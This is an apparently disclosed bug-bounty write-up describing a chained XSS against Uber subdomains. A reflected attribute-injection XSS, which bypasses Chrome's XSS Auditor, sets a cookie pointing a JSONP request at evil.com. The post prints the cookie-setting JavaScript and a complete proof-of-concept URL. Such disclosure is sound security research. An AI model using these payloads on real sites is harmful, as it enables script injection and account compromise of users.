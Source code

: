 ```yaml
---
layout: post
title: Uber XSS via Cookie
categories: articles
---
```


<h1 align="center">{{ page.title }}</h1>
<p align="right" class="date">{{ page.date | date_to_string }} - zhchbin</p>

&nbsp;&nbsp;&nbsp;This write up is about part of my latest XSS report to Uber@hackerone. Sorry for my poor English first of all, I will try my best to explain this XSS problem throughly.

## JSONP Request

&nbsp;&nbsp;&nbsp;Several months ago, when enjoying my Spring Festival Holiday at home, I decided to do something interesting, so I started hunting for a bug. I like searching in the chrome dev tools. This time my lucky word was jsonp, and my target domain was `https://get.uber.com`. Let’s look at what I had found at that time.

```
idrCall: function() {
    var a, b;
    return this.idrCallPending ? void 0 : (this.log("making idr call"),
    a = this.rfiServer ? this.rfiServer : "a.rfihub.com",
    b = this.getProtocol() + "//" + a + "/idr.js",
    this.jsonpGet(b, {}, this.idrCallback, "cmZpSWRJbkNhY2hl"),
    this.idrCallPending = !0)
},
```

<img src="http://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe8cbagsj21d00r0gsw.jpg">

&nbsp;&nbsp;&nbsp;Nothing suspicious? Not! When came cross these lines of code, I was thinking about whether the value of `this.rfiServer` could be controlled by me. If yes, we can force the browser to load arbitrary javascript file. To understand this, you should know the essence of JSONP. The next step was searching everything about `rfiServer`.

<img src="http://wx3.sinaimg.cn/mw690/9c5c5d93ly1fxqe84lvb3j20tm0f042c.jpg">

After reading through these lines of code:

```
a = this.readCookie("_rfiServer"),
null != a && this.setRfiServer(a),
```

&nbsp;&nbsp;&nbsp;We could get the information that the initial value of `this.rfiServer` was set by using value of cookie `_rfiServer` if exists. Now the problem became how we can set cookie of Uber sites? But how? Here was the options in my mind at that time:

* HTTP Header CRLF Injection at any subdomain of uber.com
* XSS at any subdomain of uber.com

What? We need to find a bug to trigger another bug. And why any subdomain of uber.com?

## The Feature of Cookie

&nbsp;&nbsp;&nbsp;Any subdomain of uber.com can set cookie with domain `.uber.com` to be used across subdomains. For instance, we can set cookie in `xxx.uber.com` using following code, then `get.uber.com` will use the cookie value.

```
document.cookie = '_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2018 01:43:57 GMT;path=/'
```

<img src="http://wx1.sinaimg.cn/mw690/9c5c5d93ly1fxqe87abluj20yt0u0qel.jpg">

## XSS of .uber.com which is Out of Scope

I did really find out one reflected XSS in one of Uber’s subdomain using search engine. Let’s call the domain `<redacted>.uber.com` for demo.

<img src="http://wx4.sinaimg.cn/mw690/9c5c5d93ly1fxqe89pzq4j21dw0fy79z.jpg">

1. `"` is reflected and not encoded. We can inject any attribution into `input` tag.
2. `type="text"` is after the injection point. So we can inject `type="image" src="1" onerror="alert(1)"`. Note that when there is two types, the second one will be ignored.
3. `>` is removed!!! This can be used to bypass Chrome XSS Auditor. How? `o>nerror.`

## Summary

1. Use reflected XSS of `<redacted>.uber.com` to set the value of `_rfiServer `cookie to `evil.com`
2. Visit `get.uber.com`, JSONP request to `https://evil.com/idr.js`, XSS of `get.uber.com` is done.
3. The final PoC

```
https://<redacted>.uber.com/<redacted>?
email=aaa"%20type%3d"image"%20src%3d1%20o>nerror%3d"eval(decodeURIComponent(location.hash.substr(1)))
#document.cookie='_rfiServer=evil.com;domain=.uber.com;expires=Sat, 27 Jan 2999 01:43:57 GMT;path=/';location.href="https://get.uber.com";
```

Thanks for Uber. Reward: 5k

